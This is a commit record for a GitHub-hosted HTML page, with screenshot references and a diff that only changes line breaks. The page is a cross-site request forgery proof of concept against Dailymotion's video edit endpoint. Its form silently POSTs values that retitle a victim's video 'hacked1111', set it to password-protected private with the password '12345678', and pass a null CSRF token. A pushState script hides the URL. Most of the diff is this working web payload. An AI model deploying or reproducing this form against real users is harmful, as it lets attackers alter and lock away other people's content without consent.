

Before and after one commit to hello02584613/Sometha, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,25 +5,25 @@
   history.pushState('', '', '/');
   </script>
     <form action="https://www.dailymotion.com/pageitem/video/edit" method="POST">
-      <input type="hidden" name="form&#95;name" value="dm&#95;pageitem&#95;video&#95;edit&#95;0" /><br>
-      <input type="hidden" name="&#95;fid" value="" /><br>
-      <b>video_title:</b><input name="video&#95;title" value="hacked1111" /><br><br>
-      <input type="hidden" name="user&#95;category" value="people" /><br>
-      <b>language:</b><input name="language" value="en" /><br><br>
-      <b>description:</b><input name="description" value="hacked11111" /><br><br>
-      <b>privacy:</b><input name="privacy" value="private&#45;password&#45;protected" /><br><br>
-      <b>private-password</b><input name="private&#45;password" value="12345678" /><br><br>
-      <input type="hidden" name="allow&#95;repost" value="1" /><br>
-      <input type="hidden" name="featured&#95;video" value="1" /><br>
-      <input type="hidden" name="recordedOn" value="" /><br>
-      <b>videoId:</b><input name="videoId" value="" /><br><br>
-      <b>videoUpdateTitle:</b><input name="videoUpdateTitle" value="" /><br><br>
-      <input type="hidden" name="extensionVideo" value=""  /><br>
-      <input type="hidden" name="uploadType" value="" /><br>
-      <input type="hidden" name="saveStatus" value="fail" /><br>
-      <input type="hidden" name="from&#95;request" value="" /><br>
-      <input type="hidden" name="&#95;csrf&#95;l" value="null" /><br>
-      <input type="submit" value="Submit request" />
+      <input type="hidden" name="form&#95;name" value="dm&#95;pageitem&#95;video&#95;edit&#95;0" />
+      <input type="hidden" name="&#95;fid" value="" />
+      <b>video_title:</b><input name="video&#95;title" value="hacked1111" /><br>
+      <input type="hidden" name="user&#95;category" value="people" />
+      <b>language:</b><input name="language" value="en" /><br>
+      <b>description:</b><input name="description" value="hacked11111" /><br>
+      <b>privacy:</b><input name="privacy" value="private&#45;password&#45;protected" /><br>
+      <b>private-password</b><input name="private&#45;password" value="12345678" /><br>
+      <input type="hidden" name="allow&#95;repost" value="1" />
+      <input type="hidden" name="featured&#95;video" value="1" />
+      <input type="hidden" name="recordedOn" value="" />
+      <b>videoId:</b><input name="videoId" value="" /><br>
+      <b>videoUpdateTitle:</b><input name="videoUpdateTitle" value="" /><br>
+      <input type="hidden" name="extensionVideo" value=""  />
+      <input type="hidden" name="uploadType" value="" />
+      <input type="hidden" name="saveStatus" value="fail" />
+      <input type="hidden" name="from&#95;request" value="" />
+      <input type="hidden" name="&#95;csrf&#95;l" value="null" />
+      <b><input type="submit" value="Submit request" /></b>
     </form>
   </body>
 </html>
```
